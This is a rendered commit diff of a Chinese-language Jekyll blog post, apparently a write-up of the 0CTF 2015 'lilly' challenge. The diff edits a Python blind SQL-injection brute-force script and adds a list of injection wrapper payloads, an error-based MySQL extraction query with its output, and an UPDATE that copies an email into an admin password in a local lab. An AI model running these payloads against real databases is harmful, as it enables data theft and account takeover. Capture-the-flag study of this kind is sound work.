

Before and after one commit to tank96a/article, a Jekyll site: the page built from _posts/2015-04-03-0ctf-lilly.md, in a window 1280 px wide and 900 px high, scrolled down 878 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; library files that are not in the unit come from our copies; comment, search, counter and statistics services are not loaded; before the commit the page ends 1528 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2015-04-03-0ctf-lilly.md

```diff
--- a/_posts/2015-04-03-0ctf-lilly.md
+++ b/_posts/2015-04-03-0ctf-lilly.md
@@ -17,12 +15,13 @@ import requests, random, string
 
 # password='=(select  CASE WHEN length(flag)=26 THEN  1 ELSE 1 MATCH '(' END from flag)='
 # password='=(select  CASE WHEN substr(flag, 1, 1)='1' THEN  1 ELSE 1 MATCH '(' END from flag)='
+# charset = string.digits + "_" + string.letters + "{}"
+#0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
+# charset = [chr(i) for i in range(256)]
+charset = string.printable
 
-# charset = string.digits + "_" + string.letters + "{}"
-charset = string.printable
-# charset = [chr(i) for i in range(256)]
-
-sql_template = "'=(select  CASE WHEN substr(flag, %d, 1)='%s' THEN  1 ELSE 1 MATCH '(' END from flag)='"
+#SELECT CASE 3 WHEN 1 THEN 'one' WHEN 2 THEN 'two' ELSE 'more' END;
+sql_template = "'=(select  CASE WHEN substr(flag, %d, 1)='%s' THEN  1 ELSE (1 match 1) END from flag)='"
 s = requests.Session()
 
 #finally we get the flag = '0CTF{R0t_?_S8rRy_1_doNt_N}'
@@ -58,7 +57,52 @@ while 1:
 			flag += c
 			print repr(flag)
 			break
-		if r.text.find("HACK") != -1:
-			# find blacklisted chars
-			print c# - /
 {% endhighlight %}
+
+
+{% raw %}
+<pre>
+' or (payload) or '
+' and (payload) and '
+' or (payload) and '
+' or (payload) and '='
+'*  (payload)  *'
+' or (payload) and '
+" – (payload) – "
+''=(payload)=''
+</pre>
+{% endraw %}
+
+
+经典文章：[Injection in Insert, Update and Delete Statements](https://osandamalith.wordpress.com/2014/04/26/injection-in-insert-update-and-delete-statements)
+
+[kali下注入学习网站](http://localhost/sqli-labs/Less-1/?id=1)
+
+准备测试数据：
+Create database newdb;
+use newdb;
+CREATE TABLE users(id int(3) NOT NULL AUTO_INCREMENT,username varchar(20) NOT NULL,password varchar(20) NOT NULL,PRIMARY KEY (id));
+desc users;  查看表的结构
+insert into users (id, username, password) values (1, 'Jane', 'Eyre'); 插入数据
+
+新建flag表：
+CREATE TABLE flag(id int(3) NOT NULL AUTO_INCREMENT, flag varchar(64) NOT NULL,PRIMARY KEY (id));
+insert into flag(id,flag) values(1,'0CTF{R0t_?_S8rRy_1_doNt_N}');
+
+mysql> select flag from flag where flag='' and (select 1 FROM(select count(*),concat((select (select concat(database())) FROM information_schema.tables LIMIT 0,1),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a) and '';
+ERROR 1062 (23000): Duplicate entry 'security1' for key 'group_key'
+
+
+show databases;
+use security;
+show tables;
++--------------------+
+| Tables_in_security |
++--------------------+
+| emails             |
+| flag               |
+| referers           |
+| uagents            |
+| users              |
++--------------------+
+update users set password='',password=(select email_id from emails limit 0,1) where username='admin4';
```
Also changed, not shown: other parts of _posts/2015-04-03-0ctf-lilly.md (+0 -2 lines).
